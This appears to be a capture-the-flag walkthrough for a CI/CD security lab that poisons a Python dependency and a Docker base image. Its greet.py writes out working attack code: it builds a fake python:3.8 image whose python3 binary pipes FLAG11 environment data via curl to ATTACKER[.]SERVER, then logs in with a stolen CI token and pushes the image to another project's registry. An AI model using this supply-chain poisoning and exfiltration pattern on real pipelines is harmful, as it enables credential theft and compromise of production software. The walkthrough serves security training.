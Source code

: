 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-03-Dependency-Chain-Abuse)
[![CICD-SEC-6 Insufficient Credential Hygiene](https://img.shields.io/badge/CICD--SEC--6-Insufficient%20Credential%20Hygiene-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-06-Insufficient-Credential-Hygiene)

Let's explore what we have when signing in to the compromised GitLab user account:

We are the maintainers of *pygryphon* package. There are also public projects: *nest-of-gold* and *awesome-app* to which we have read-only access.

As the instructions of this challenge hint, let's try to see if we can find any reference to *Flag11*.

A simple search tells us it is referenced by the *nest-of-gold* project 


![grpyhon](../images/gryphon-1.png "grpyhon")

We can see that *Flag11* is used in a pipeline that ships a container used in production.

Browsing to the pipeline settings, we discover that a scheduling is set, and that a user named "gryphon" is executing the pipeline.

If we keep looking, we can discover that the same user is executing the *awesome-app* project's pipeline.

Diving into *awesome-app*, it is using the pygrphon package as a dependency! We can tell it by the *requirments.txt* file:

```
--extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
```

This means we can try and influence the *awesome-app* pipeline by uploading a new malicious Python package of *pygryphon*. We'll get back to it in a moment.

Our end goal is in the *nest-of-gold* project, how can we influence its pipeline?
  
Let's have a look at the Dockerfile inside *nest-of-gold*. We can see it's dependent on the python:3.8 docker image stored in the *nest-of-gold* container registry, and not the offical registry.
  
```docker
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```
  
Here comes the tricky part 🥸 let's create a malicious *pygryphon* package that pushes a malicious python3.8 docker base image to the *nest-of-gold* container registry.


In the *awesome-app* pipeline we can see a PAT being used named *TOKEN*.

`docker login -u gryphon -p $TOKEN $CI_REGISTRY`

Let's try to steal this token and use it against the *nest-of-gold* container registry.     
In this package, we create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
Modified *greet.py* content:

```python
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env | grep FLAG11 | curl -X POST --data-binary @- https://ATTACKER[.]SERVER/"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact 
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    # Grant our script execution permission    
    run('chmod +x python3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')    
    return "Hello, " + name
```

Build and upload this package to the gryphon package registry (after configuring GitLab as the package registry).

Conveniently you may use these files to build the package:  

[.pypirc](/tests/data/pygryphon/.pypirc)

[pyproject.toml](/tests/data/pygryphon/pyproject.toml)


```sh
pipenv run python3 -m build [path_to_package]
pipenv run python3 -m twine upload -r gitlab
```

Now prepare a cup of coffe ☕️ wait for the two pipeline scheduling to take place, and expect the flag to arrive at your http server.

Solution summary:
![diagram](../images/gryphon-2.png)
